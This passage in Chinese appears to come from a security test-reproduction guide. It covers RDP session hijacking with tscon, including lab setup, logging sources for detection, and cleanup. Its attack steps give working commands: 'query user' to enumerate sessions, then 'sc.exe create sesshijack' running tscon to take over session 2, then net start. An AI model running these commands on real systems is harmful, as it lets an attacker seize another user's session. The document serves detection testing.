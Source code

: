 ### 网络日志
- 捕获TCP 3389端口的RDP流量，关注会话切换。

## 测试复现

### 环境准备
- **靶机**：Windows Server 2016或Windows 10/11（已启用RDP，存在活动会话）。
- **权限**：本地或域管理员权限。
- **工具**：
  - 原生Windows工具（`query user`、`tscon.exe`、`sc.exe`）。
  - Sysmon（监控进程和注册表活动）。
  - Wireshark（捕获RDP流量）。
- **网络**：隔离网络环境，允许TCP 3389流量。
- **日志**：启用Windows安全日志（事件ID 4688、7045）、Sysmon日志和网络日志。
- **RDP配置**：
  - 确保RDP服务启用：
    ```powershell
    Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server" -Name "fDenyTSConnections" -Value 0
    Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
    ```

### 攻击步骤
1. **枚举RDP会话**：
   ```cmd
   query user
   ```
   - 示例输出：
     ```plaintext
     USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
     >administrator         console            1   Active  none       2025/06/08 04:10
     user1                 rdp-tcp#55         2   Disc    1+00:00    2025/06/08 03:50
     ```
   - 记录目标会话ID（如`2`）和目标会话名（如`rdp-tcp#55`）。
2. **创建临时服务**：
   ```cmd
   sc.exe create sesshijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#55"
   ```
   - 创建服务`sesshijack`，运行`tscon.exe`劫持会话ID 2。
3. **启动服务**：
   ```cmd
   net start sesshijack
   ```
   - 若服务启动失败（如无RDP会话），检查会话ID和目标会话名。
4. **验证结果**：
   - 检查是否成功接管RDP会话（通过RDP客户端连接，观察桌面切换）。
   - 使用Wireshark捕获TCP 3389流量。
   - 验证Sysmon日志是否记录`sc.exe`、`tscon.exe`进程创建和服务注册表修改。
5. **清理**：
   - 删除服务：
     ```cmd
     sc.exe delete sesshijack
     ```
   - 断开RDP会话：
     ```cmd
     logoff 2
     ```

